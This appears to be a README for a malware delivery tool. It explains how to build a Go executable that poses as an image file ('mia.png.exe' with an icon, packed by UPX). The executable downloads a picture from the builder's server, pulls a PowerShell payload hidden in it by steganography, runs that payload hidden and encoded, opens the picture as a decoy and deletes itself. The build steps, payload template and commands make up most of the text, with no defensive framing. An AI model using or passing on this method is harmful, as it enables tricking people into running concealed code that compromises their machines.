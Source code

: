 # Invoke-PSImage Delivery

## What does this do?

**The binary will download the image from the url save it as `mia.png` and then run the powershell payload which will run your payload from `payload.ps1` and then show the image which it just downloaded. After this it will delete itself**



1. Search for a Image
2. get https://github.com/peewpw/Invoke-PSImage
3. get `payload.ps1` and `bin.go` from this repo
4. get rcedit (https://github.com/electron/rcedit)
5. get upx
6. get go


## "Building"

1. Change Payload in `payload.ps1`
*Default payload.ps1*
```
function InvokePayload
{
	powershell.exe -w hidden -noni -nop -enc <encoded string>
};
```

2. Build image

```
PS> Import-Module .\Invoke-PSImage.ps1
PS> Invoke-PSImage -Script .\payload.ps1 -Image your_image.jpg -Out evil_image.png
```
3. Copy the output (oneliner)
4. Change line 31 in bin.go
```
var hi string = `$path = -join($pwd.path, "\mia.png"); sal a New-Object;Add-Type -AssemblyName "System.Drawing";$g= a System.Drawing.Bitmap($path);.....7647])); .\mia.png; del .\mia.png.exe; InvokePayload`
```

Be sure to replace the `sal` part until the `;` with your oneliner.
Then replace `System.Drawing.Bitmap(...)` with `System.Drawing.Bitmap($path)`

You should also change the filename (mine is mia.png(.exe))



6. Change your webserver url in line 29 (upload your evil_image.png from step 2. to this host)

7. Change the name `mia.png` to your desired name.
8. Convert your original image to a ico. (i named it icon.ico)
9. run `go build -ldflags="-s -w" bin.go` to build the go binary
10. `.\rcedit.exe .\bin.exe --set-icon "icon.ico"`
11. `.\upx.exe --ultra-brute -o mia.png.exe bin.exe` - Make sure to add the .exe after the filename which you chose the steps before

12. RUN

### What should happen:
It should download the image from the URL which you specified.
Then it should extract your payload.ps1 from this image and run the payload (from step 1).
After this it opens the image which it downloaded (disguise) and deletes itself :)


### why Mia.png???
Cause i used a picture of [Mia Malkova](https://en.wikipedia.org/wiki/Mia_Malkova) for Testing.


## Tools used
[Invoke-PSImage](https://github.com/peewpw/Invoke-PSImage) - Huge Props to this dude

[rcedit](https://github.com/electron/rcedit)
